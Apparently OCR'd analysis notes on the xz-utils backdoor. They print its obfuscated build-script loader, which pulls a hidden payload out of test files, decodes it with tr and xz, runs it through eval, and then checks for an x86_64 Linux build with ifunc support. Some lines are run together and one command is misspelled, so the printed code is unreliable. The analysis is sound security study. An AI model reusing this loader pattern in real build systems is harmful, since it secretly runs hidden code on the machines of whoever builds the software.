 - Check if `config.status` exists
- If `config.status` exists, print the variables in command

```
    vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`fi
            fi
        fi
    fi
```

```
cat $f1 | tail -c +$(echo $vs | cut -d: -f2) + 7 | haed -c +$(echo $ve | cut -d: -f2) - $start | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc
```

- Added in 5.6.1
- Find file that include string `~!:_ W` and `|_!{ -`
- (There is no file that include the magic strings)
- Check for `$f1` and `$f2` is identical and if `$f1` is exists

```
    eval $zrKccj
    if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
        exit 0
    fi
    if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
        exit 0
    fi
```

- Check GNU indirect function support is enabled

```
    if test "x$enable_shared" != "xyes";then
        exit 0
    fi
```

- Check shared library support is enabled

```
    if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
        exit 0
    fi
```

